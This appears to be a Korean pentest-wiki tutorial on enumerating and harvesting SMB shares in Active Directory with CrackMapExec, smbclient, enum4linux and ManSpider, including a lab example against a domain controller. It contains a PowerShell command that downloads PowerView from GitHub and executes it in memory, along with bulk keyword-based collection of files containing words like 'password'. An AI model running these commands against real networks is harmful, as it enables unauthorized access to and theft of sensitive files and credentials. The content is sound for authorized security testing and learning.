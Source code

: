 # SMB 쉐어 수집

SMB는 Server Message Block 프로토콜로서, 윈도우 액티브 디렉토리에서 파일과 프린터를 공유하는데 가장 많이 사용되는 프로토콜이다. 요새는 파일 공유 같은 경우는 웹 기반의 SaaS 로 많이 넘어갔지만, 아직도 많은 네트워크에서 쉐어를 이용한다.&#x20;

공격자들은 SMB 쉐어에 관련된 정보와 쉐어 안의 파일을 정보 수집을 통해 얻어낼 수 있다.&#x20;

### 도메인 유저 맥락&#x20;

도메인 유저 계정을 하나라도 장악한 공격자는 도메인 내 도메인 유저에게 공개되어 있는 쉐어를 탐색할 수 있다. 쉐어의 읽기/쓰기 권한이 잘못 설정되어 있는 경우, 공격자는 쉐어에 접근해 추가 공격에 용이한 파일을 얻을 수 있다. 혹은 민감한 정보가 담긴 파일이 있는 쉐어가 네트워크 안 모든 유저에게 공개되어 있는 경우도 많다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
CrackMapExec을 이용해 찾아낼 수 있다.&#x20;

```
cme smb <target(s)> -u <user> -p <passwd> -d <domain> --shares 
```
{% endtab %}

{% tab title="윈도우" %}
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1');
find-domainshare -checkshareaccess
```
{% endtab %}
{% endtabs %}

예를 들어 다음과 같은 도메인 쉐어를 찾았다고 가정해보자.&#x20;

```
└─# cme smb 192.168.40.150 -u low -p 'Password123!' -d choi.local --shares
               
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\low:Password123! 
SMB         192.168.40.150  445    DC01             [+] Enumerated shares
SMB         192.168.40.150  445    DC01             Share           Permissions     Remark
SMB         192.168.40.150  445    DC01             -----           -----------     ------
< ... >  
SMB         192.168.40.150  445    DC01             share           READ,WRITE      Share for deploying files from the DC       Logon server share 
```

도메인 컨트롤러의 "share" 라는 쉐어가 존재하는데, 일반적인 "low" 도메인 유저가 이에 읽기/쓰기 권한을 갖고 있다. smbclient 를 이용해 파일을 가져올 수 있다.&#x20;

```
└─# smbclient -U CHOI/low%'Password123!' \\\\192.168.40.150\\share

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul  4 22:24:07 2022
  ..                                  D        0  Mon Jul  4 22:24:07 2022
  secret.txt                          A       18  Mon Jul  4 22:24:07 2022

                15644159 blocks of size 4096. 10228069 blocks available
smb: \> get secret.txt
getting file \secret.txt of size 18 as secret.txt (17.6 KiloBytes/sec) (average 17.6 KiloBytes/sec)
```

### Anonymous/Null Session Share&#x20;

SMB 쉐어의 권한이 잘못 설정되어 Anonymous 나 Null Session 으로 접근 가능한 쉐어들은 도메인 유저 맥락이 없어도, 아무런 계정 정보가 없어도 접근이 가능하다.&#x20;

```
cme smb <target(s)> -u '' -p ''  --shares
cme smb <target(s)> -u 'a' -p '' --shares 
enum4linux -a <target>
```



### 대량 SMB 정보 수집&#x20;

모의해킹을 진행하다보면 3만대 5만대의 호스트로부터 SMB 쉐어 파일을 가져와야할 때가 있다. 이렇듯 대량으로 SMB 파일을 다운받기 위해서는 ManSpider 라는 툴을 이용한다. Manspider 는 특정 파일 확장자, 파일 컨텐츠 등을 화이트리스트/블랙리스트 한 뒤, 파일을 다운 받는 툴이다. 몇천대, 몇만대 호스트를 상대로 실행해도 상당히 빠른 속도로 SMB 파일들을 수집한다.&#x20;

```
manspider.py --threads 128 <ip-ranges> -u <user> -p <pass> -c password passwd confidential
```

### 레퍼런스&#x20;

{% embed url="https://github.com/blacklanternsecurity/MANSPIDER" %}

